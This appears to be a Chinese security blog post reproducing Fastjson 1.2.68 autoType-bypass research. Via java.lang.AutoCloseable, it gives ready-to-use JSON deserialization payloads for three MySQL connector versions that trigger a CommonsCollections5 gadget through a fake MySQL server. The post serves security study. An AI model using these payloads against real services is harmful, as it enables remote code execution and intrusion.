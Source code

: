 title: Fastjson高版本的奇技淫巧
author: bmth
tags:
  - fastjson
categories:
  - java
top_img: 'https://img-blog.csdnimg.cn/38022679056243789c9a7913e6ab82c1.png'
cover: 'https://img-blog.csdnimg.cn/38022679056243789c9a7913e6ab82c1.png'
date: 2022-10-19 14:41:00
---
![](https://img-blog.csdnimg.cn/38022679056243789c9a7913e6ab82c1.png)

众所周知fastjson一般都是打JNDI的，这也是最常用的一种方法，但是高版本的话autoType默认为false，不支持，这里就需要通过一些其他的方法来rce了

在去年的黑帽大会上分享了fastjson1.2.68的几种利用链，今年看到浅蓝师傅关于fastjson1.2.80分享的议题，决定两个一起学习一下

## BlackHat2021(fastjson 1.2.68)
fastjson 1.2.68可以利用java.lang.AutoCloseable绕过checkAutotype

利用前提：
- 必须继承 AutoCloseable
- 必须具有默认构造函数或带符号的构造函数，否则无法正确实例化
- 不在黑名单中
- 可以引起 rce 、任意文件读写或其他高风险影响
- gadget的依赖应该在原生jdk或者广泛使用的第三方库中

### Mysql JDBC
先配置一下mysql
```
<dependency>
	<groupId>mysql</groupId>
	<artifactId>mysql-connector-java</artifactId>
	<version>5.1.30</version>
</dependency>
```
可以看到JDBC4Connection是满足条件的
![](https://img-blog.csdnimg.cn/86ec1311c0274224ac995ff1cb640d59.png)

可以打jdbc的反序列化，简单的复现一下，打一下cc5
使用工具 [https://github.com/fnmsd/MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)

```json
//Mysql connector 5.1.11-5.1.48
{"name": {"@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "127.0.0.1", "portToConnectTo": 3306, "info": { "user": "CommonsCollections5", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" }}

//Mysql connector 6.0.2 or 6.0.3
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection","proxy": {"connectionString":{"url":"jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=CommonsCollections5"}}}

//Mysql connector 8.0.19
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.cj.jdbc.ha.ReplicationMySQLConnection","proxy":{"@type":"com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy","connectionUrl":{"@type":"com.mysql.cj.conf.url.ReplicationConnectionUrl", "masters":[{"host":"127.0.0.1"}], "slaves":[],"properties":{"host":"127.0.0.1","user":"CommonsCollections5","dbname":"dbname","password":"pass","queryInterceptors":"com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true"}}}}
```
![](https://img-blog.csdnimg.cn/84e394cdfb534934a068c319f86fc045.png)
参考：[Fastjson MySQL gadget复现](https://sumsec.me/2021/Fastjson_Mysql_gadget%E5%A4%8D%E7%8E%B0.html)
